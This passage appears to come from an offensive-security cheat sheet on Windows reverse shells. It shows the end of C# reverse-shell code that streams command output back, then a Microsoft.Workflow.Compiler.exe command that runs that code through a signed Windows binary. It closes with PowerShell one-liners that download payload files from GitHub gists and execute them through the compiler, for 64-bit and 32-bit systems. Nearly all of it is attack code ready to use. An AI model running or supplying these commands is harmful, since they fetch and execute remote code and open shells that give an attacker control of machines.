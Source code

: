 ```csharp
}
}
}
}

private static void CmdOutputDataHandler(object sendingProcess, DataReceivedEventArgs outLine)
{
StringBuilder strOutput = new StringBuilder();

if (!String.IsNullOrEmpty(outLine.Data))
{
try
{
strOutput.Append(outLine.Data);
streamWriter.WriteLine(strOutput);
streamWriter.Flush();
}
catch (Exception err) { }
}
}

}
}
```
### C# using compiler

#### tlhIngan Hol

### C# using compiler

#### tlhIngan Hol
```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt.txt REV.shell.txt
```
[REV.txt: https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066](https://gist.github.com/BankSecurity/812060a13e57c815abe21ef04857b066)

[REV.shell: https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639](https://gist.github.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639)

Automatic download and execution:
```csharp
64bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell

32bit:
powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/812060a13e57c815abe21ef04857b066/raw/81cd8d4b15925735ea32dff1ce5967ec42618edc/REV.txt', '.\REV.txt') }" && powershell -command "& { (New-Object Net.WebClient).DownloadFile('https://gist.githubusercontent.com/BankSecurity/f646cb07f2708b2b3eabea21e05a2639/raw/4137019e70ab93c1f993ce16ecc7d7d07aa2463f/Rev.Shell', '.\Rev.Shell') }" && C:\Windows\Microsoft.Net\Framework\v4.0.30319\Microsoft.Workflow.Compiler.exe REV.txt Rev.Shell
```
{% embed url="https://gist.github.com/BankSecurity/469ac5f9944ed1b8c39129dc0037bb8f" %}
